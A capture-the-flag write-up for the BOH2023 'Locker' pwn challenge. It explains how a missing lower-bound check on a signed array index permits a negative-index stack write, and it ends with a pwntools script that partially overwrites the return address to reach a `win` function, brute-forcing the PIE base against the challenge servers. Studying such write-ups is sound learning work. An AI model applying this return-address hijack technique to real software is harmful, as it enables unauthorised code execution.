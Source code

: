 ```yaml
---
title : "Locker [Pwn]"
categories: BOH2023
---
```


Subtle integer underflow to hijack control flow. 

[locker.tar]({{ site.url }}/files/boh2023/locker.tar){: .btn .btn--info}

# Going through the program

This program is yet another menu program.

1. Read locker: cannot use... I wonder why... (legit)
2. Write locker: choose a lock number (1 - 8) and write into the key and value.
3. Exit: exits :)

The code also has an unused `win` function:

```c
void win() {
    system("cat ./flag.txt");
}
```

There are 8 locks (2 bytes each) in an array (8 * 2 = 16 bytes), which are all initialized to 0.

```c
#define LOCKER_NUM 8

size_t n = 32;

typedef struct {
    char key;
    char value;
} locker;

...

int main(void) {
    setup();
    locker lockers[LOCKER_NUM];
    memset(lockers, 0, sizeof(lockers));
```

We can read (does nothing) and write to locks for an arbitrary number of times. In the end, we can provide feedback...

```c
    char feedback[32];
    puts("Feedback?");
    scanf("%s", feedback);
    return 0;
}
```

Wait, buffer overflow? **WRONG**

{% include image.html url="/assets/images/boh2023/locker_checksec.png" description="bamboozled" %}

There is stack canary, so no luck :P

# Solution

After staring at this code for long enough + trading 30% of my sanity to it, I finally saw that

```c
void write_locker(locker *lockers) {
    puts("\n\nWrite Locker");
    puts("===========");
    int number;
    printf("Locker number [1-8]: ");
    scanf("%d", &number);
    if (number > LOCKER_NUM) {
        puts("Under maintenance");
        return;
    }
    printf("Key  : ");
    scanf("%hhd", &lockers[number - 1].key);
    printf("Value: ");
    scanf("%hhd", &lockers[number - 1].value);
}
```

the index is a signed integer, and only `number > LOCKER_NUM` is checked, meaning negative numbers are accepted.

What does this imply? When indexing an array, it is actually performing pointer arithmetic on the pointer to the head of the array.

```
    +-------+--------+--------+
... |       | arr[0] | arr[1] | ...
    +-------+--------+--------+
        
arr+? : -1       0        1
```

Note that pointer arithmetic changes the address in units of the type size, i.e. the actual address value changes by, for example, 4 (when +/- 1) if `arr` is an array of `int`s (4 bytes).

The key is to realize the stack layout inside `write_locker`. Note that the stack is growing upwards here (bottom = higher address value).

```
    <-- 4 bytes --x-- 4 bytes -->
    +-------------+-------------+
    |             |    number   |
    +---------------------------+
    |       stack canary        |
    +---------------------------+
    |       base pointer        |
    +---------------------------+
    |      return address       |
    +---------------------------+
    |                           |
    +-------------+-------------+
    |   option    |             |
    +-------------+-------------+
    |          lockers          |
    +-------------+-------------+
    |          lockers          |
    +-------------+-------------+
                 ...
```

You can get this by using disassemblers or just GDB and deduce it yourself.

{% include image.html url="/assets/images/boh2023/locker_stack_layout.png" description="Using Ghidra (after renaming variables)" %}

{% include image.html url="/assets/images/boh2023/locker_stack_layout_2.png" description="Using Ghidra (after renaming variables)" %}

The blank part beside option is to pad the stack to a quadword. Not sure about the 8 bytes of padding above that though, perhaps just some stack alignment stuff. I found about this 8-byte when testing out the exploit and examining through GDB.

Our goal now is to change the bytes of the return address to the address of `win`, then we win! We can do

```bash
objdump -d locker | grep win
0000000000001229 <win>:
    1261: 74 05                        	je	0x1268 <win+0x3f>
```

or search it up on Ghidra. However, we need to notice that PIE is enabled, which means that the program might be loaded at a different base address than 0x400000. Then what bytes should we write, and what values to write to? One useful fact is that the base address will be aligned to page size (usually 0x1000 bytes), meaning that the base address will always be a multiple of 0x1000.

With this knowledge, we know that the address of `win` is always 0x....229. Therefore, we can write 0x29 to the LSB of the return address, and some 0xX2 to the next byte, and keep trying until the base address matches what we put.

```
    <-- 4 bytes --x-- 4 bytes -->        <- 2 ->
    +-------------+-------------+        +---------------------------+
    |             |    number   |        |                           |
    +-------------+-------------+        +---------------------------+
    |       stack canary        |        |                           |
    +---------------------------+        +---------------------------+
    |       base pointer        |        |                           |
    +---------------------------+        +------+------+------+------+
    |      return address       |        |  -9  |  -10 | -11  | -12  |
    +---------------------------+        +------+------+------+------+
    |                           |        |  -5  |  -6  |  -7  |  -8  |
    +-------------+-------------+        +------+------+------+------+
    |   option    |             |        |  -1  |  -2  |  -3  |  -4  |
    +-------------+-------------+        +------+------+------+------+
    |          lockers          |        |                    |   0  |
    +-------------+-------------+        +-------------+------+------+
    |          lockers          |        |                           |
    +-------------+-------------+        +-------------+-------------+
                 ...
```

From this, we see that we need to index `lockers[-12]`, so `number` should be -11.

# Final Script
```python
from pwn import *

DEBUG = False
context.log_level = "error"

ind = str(-11 & 0xffffffff).encode()

while True:
    conn = remote("157.245.156.90", 5000) if DEBUG else remote("54.158.139.58", 1235)

    conn.recvuntil(b"Exit")
    conn.recvline()

    conn.recvuntil(b"> ")
    conn.sendline(b"2")
    conn.sendlineafter(b": ", ind)

    b = 0x52

    # win = ...229

    conn.sendlineafter(b": ", str(0x29+5).encode())
    conn.sendlineafter(b": ", str(b).encode())

    try:
        line = conn.recvline()
        if b"ABOH" in line:
            print(line)
            conn.close()
            break
    except:
        conn.close()


```
